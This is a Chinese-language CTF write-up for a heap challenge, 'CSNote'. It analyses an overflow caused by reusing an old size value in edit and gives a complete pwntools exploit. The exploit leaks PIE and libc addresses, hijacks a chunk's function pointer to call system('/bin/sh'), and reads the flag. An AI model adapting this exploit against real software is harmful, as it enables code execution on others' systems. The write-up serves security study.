



# CSNote

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |Arch 2.42|

## 解题思路

题目自己实现了一个堆，地址是从`getrandom`系统调用得到的，不可预测；
在分配页的附近会有`PROT_NONE`页阻止越界访问。所有分配都是非线性的，
相邻的堆块不会分配到一起。逆向是一坨，得上点fuzz。题目有两种chunk，大和小，
结构大概是这样：

```c
typedef struct {
  long size_flag;
  char buf[0xf8];
} small;

typedef struct {
  long size_flag;
  char *buf;
  void (*writer)(char *buf, long size);
} large;

// 如果size <= 0xf8，则size_flag = 0x8000000000000000 | size；此时为负数
// 如果堆块被释放，则小块全部填0xde；同样是负数
// 对于大堆块，size_flag = size；此时为正数
```

通过一些fuzz发现在edit时存在bug：执行`read(0, chunk->buf, size)`时，对于大堆块，
`size`会使用记录的`size_flag`的值，而对于小堆块，`size`会使用上次的值
（例如上次create时写为0x90000，则修改小堆块时size仍为0x90000，因此存在溢出）。



经过统计，前256个堆块在分配时虽然相邻两次的堆块分配时空间上并不相邻，
但是总体分配在一起，因此通过爆破实现堆溢出，可以修改下一个堆块的`size_flag`，
实现类别的转换。总体利用如图所示：



## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './main'

def payload(lo: int, host: str='', port: int=0) -> int:
    # global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote(host, port)
    elf = ELF(EXE)
    libc = elf.libc

    line = t.recvline()
    if b'Blocked' in line:
        t.close()
        return 4
    t.unrecv(line)

    def create(idx: int, sz: int, buf: bytes):
        t.sendlineafter(b'enter option', b'0')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendlineafter(b'read len', str(sz).encode())
        t.sendafter(b'content', buf)

    def reader(idx: int, fetch: bool=True) -> bytes:
        t.sendlineafter(b'enter option', b'2')
        t.sendlineafter(b'index', str(idx).encode())
        if fetch:
            t.recvuntil(b'content:\n')
            return t.recvuntil(b'options:', drop=True)

    def edit(idx: int, buf: bytes):
        t.sendlineafter(b'enter option', b'3')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendafter(b'content', buf)

    LOOP = 24
    SMALL = 1 << 63
    for i in range(LOOP):
        create(i, 0x20, b'a')
    for i in range(LOOP, 2 * LOOP):
        create(i, 0x100, b'a')
    for i in range(LOOP):
        edit(i, p64(SMALL | 0x20).rjust(0x100))

    for i in range(LOOP, 2 * LOOP):
        buf = reader(i)
        if buf[1:4] != b'\0' * 3:
            break
    else:
        t.close()
        return 1 # no collision

    pie_base = u64(buf[8:16]) - 0x1220
    elf.address = pie_base
    success(GOLD_TEXT(f'Leak pie_base  @ LARGE {i:2d}: {pie_base:#x}'))

    edit(i, flat(elf.got['puts'], elf.plt['puts']))
    create(3 * LOOP, 0x120, b'a')

    for k in range(LOOP):
        edit(k, p64(0x100).rjust(0x100))
        buf = reader(i)
        if len(buf) == 0:
            return 2 # small chunk overlapped
        if buf[6] == 10:
            break

    libc_base = u64(buf[:6] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base @ SMALL {k:2d}: {libc_base:#x}'))
    libc.address = libc_base

    create(256, 0x120, b'a')
    edit(k, b'a'*0xf8 + flat(0x200, next(libc.search(b'/bin/sh')), libc.symbols['system']))
    reader(i, False)

    t.sendline(b'cat flag')
    t.recvuntil(b'flag{')
    flag = b'flag{' + t.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')

    t.close()
    return 0
```

## 没那么简单

后面比赛结束后和其他选手讨论了一下，还有一个洞在swap功能里，而且由于第二天题就没了，
也没仔细看了。

我这个方案有可能会出现的问题是，在尝试覆写下一个堆块的过程中，
可能把原先的小堆块改成大堆块，而上面填的数据还是垃圾数据，这就会导致read会阻塞，
但是由于地址错误，输入的内容会被放到主循环里导致乱套，无法继续利用。
而且由于我们一开始不知道任何指针，因此也没法预先填充好一个正确的指针，导致这个问题没法被解决，
这也是溢出这个方案不稳定的原因。


